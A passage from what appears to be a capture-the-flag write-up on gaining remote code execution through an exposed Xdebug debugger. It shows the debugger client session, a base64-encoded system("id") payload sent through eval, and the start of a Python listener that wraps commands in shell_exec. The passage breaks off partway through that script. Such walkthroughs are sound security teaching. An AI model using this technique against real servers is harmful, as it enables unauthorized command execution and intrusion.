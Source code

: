 ```

oxdf@parrot$ ./dbgpClient -p 9000
Xdebug Simple DBGp client (0.4.2)
Copyright 2019-2020 by Derick Rethans
In dumb client mode

Waiting for debug server to connect on port 9000.

```

Now I’ll trigger the curl, and there’s a connection:

```

Waiting for debug server to connect on port 9000.
Connect from 172.30.0.1:51018
DBGp/1.0: Xdebug 2.6.0 — For PHP 7.2.1-1ubuntu2
Debugging file:///var/www/html/info.php (ID: 43/0xdf)
(cmd)

```

The command syntax is weird. There’s an `eval` command, and the syntax is `eval -i [id] -- {base64 encoded command}`. So if I wanted to run `id`, first I need to encode the PHP:

```

oxdf@parrot$ echo 'system("id");' | base64
c3lzdGVtKCJpZCIpOwo=

```

And now send it:

```

(cmd) eval -i 1 -- c3lzdGVtKCJpZCIpOwo=;
1 | eval
1 | string : uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

Still, as clunky as that is, it’s RCE.

#### Script

I’ll write a short Python script that will handle this connection, get a command, decode the response, and print it:

```

#!/usr/bin/env python    
    
import base64    
import re    
import socket    

res_re = re.compile(r'\<\!\[CDATA\[([A-Za-z0-9+/]+={0,2})\]\]\>')    
ip_port = ('0.0.0.0', 9000)    
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()
client_data = conn.recv(1024)

while  True:
    cmd = input ('>> ')
    cmdstr = f'shell_exec("{cmd}");'.encode('ascii')
```